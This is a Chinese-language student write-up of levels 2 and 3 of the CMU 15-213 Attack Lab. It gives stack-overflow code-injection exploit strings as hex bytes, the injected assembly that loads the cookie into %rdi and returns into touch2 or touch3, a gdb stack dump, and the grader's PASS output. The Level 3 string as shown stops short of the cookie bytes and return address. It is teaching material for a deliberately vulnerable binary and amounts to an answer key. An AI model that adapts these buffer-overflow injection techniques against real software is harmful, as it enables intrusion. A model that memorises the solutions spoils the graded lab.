 ***
### Level2
题目要求：touch2传入的参数和cookie中的一样

思路：code injection. 输入的字符串中包含一段代码，代码的功能是将 %rdi 的数值置为和cookie中相同。

通过gcc 和 objdump 实现
```
0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec	//栈中压入touch2的入口地址
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi	//cookie的值
   c:	c3                   	retq   			//返回
```
exploit string 如下
```
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 34 35 36 
78 dc 61 55 	
```
最后的字符传为 buf的首地址，也是rsp 的地址。先通过ret返回插入的代码段，然后执行代码进入touch2
```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 
```
***
###Level3
exploit string 中有一段需要和cookie表示的字符相同，且函数传递的参数为字符串启始位置的地址

~ 栈中的内容会被后来的函数覆盖，即`0x5561dc78～0x5561dc98`
```
(gdb) x/12g 0x5561dc78
0x5561dc78:	0x0000000000000000	0x0000000000000000
0x5561dc88:	0x0000000000000000	0x0000000000000000
0x5561dc98:	0x0000000055586000	0x0000000000401976
0x5561dca8:	0x0000000000000009	0x0000000000401f24
0x5561dcb8:	0x0000000000000000	0xf4f4f4f4f4f4f4f4
0x5561dcc8:	0xf4f4f4f4f4f4f4f4	0xf4f4f4f4f4f4f4f4
```
但发现`0x5561dca8` 这里不会被覆盖，字符串长度为8（不计算\0），栈外的地址，buf缓存去外

故溢出覆盖产生的返回地址返回injection code
```
0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   c:	c3                   	retq   
```
整个字符串应为
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55
c3 
30 31 32 33 34 35 36 37 38 39 
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36
```